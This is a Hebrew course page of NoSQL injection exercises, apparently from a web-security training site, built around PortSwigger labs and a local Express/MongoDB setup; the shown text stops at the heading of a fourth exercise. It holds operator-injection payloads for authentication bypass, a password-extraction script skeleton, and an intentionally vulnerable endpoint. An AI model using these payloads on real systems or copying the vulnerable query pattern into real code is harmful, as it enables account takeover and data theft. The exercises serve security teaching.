

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/3 - הזרקות מתקדמות/3.2 - הזרקת NoSQL/3.2 - הזרקת NoSQL - תרגיל/index.html · generator: mkdocs

# הinjection NoSQL - תרגיל

## תרגיל 1 - bypass אותנטיקציה

PortSwigger Lab: **Exploiting NoSQL operator injection to bypass authentication**

### משימות

1. גשו לעמוד ההתחברות של האפליקציה
2. נסו להתחבר עם פרטים רגילים ובדקו את הבקשה ב-Burp Suite
3. שנו את ה-Content-Type ל-`application/json`
4. שלחו את ה-payload הבא:

```json
{
    "username": "admin",
    "password": {"$ne": ""}
}
```

5. אם לא עובד, נסו וריאציות:
   - `{"$gt": ""}`
   - `{"$regex": ".*"}`
   - `{"$exists": true}`
6. התחברו כ-admin והשלימו את המעבדה

## תרגיל 2 - extraction נתונים עם $regex

PortSwigger Lab: **Exploiting NoSQL injection to extract data**

### משימות

1. מצאו נקודת injection באפליקציה
2. אשרו שניתן להשתמש ב-`$regex`:

```json
{"username": "admin", "password": {"$regex": "^.*"}}
```

3. כתבו סקריפט Python שמחלץ את הסיסמה תו אחר תו:

```python
import requests
import string

url = "http://TARGET/login"
charset = string.ascii_lowercase + string.digits
password = ""

# Complete the script
```

4. חלצו את הסיסמה המלאה
5. התחברו עם הסיסמה שחילצתם

## תרגיל 3 - injection אופרטורים דרך Query Parameters

### משימות

1. הקימו סביבת Node.js מקומית עם Express ו-MongoDB
2. צרו endpoint פגיע:

```javascript
app.get('/users', async (req, res) => {
    const users = await User.find({
        role: req.query.role
    });
    res.json(users);
});
```

3. נסו להזריק אופרטורים דרך URL:

```
GET /users?role[$ne]=user
GET /users?role[$regex]=^admin
```

4. תעדו אילו אופרטורים עובדים ומה התוצאות

## תרגיל 4 - injection $where
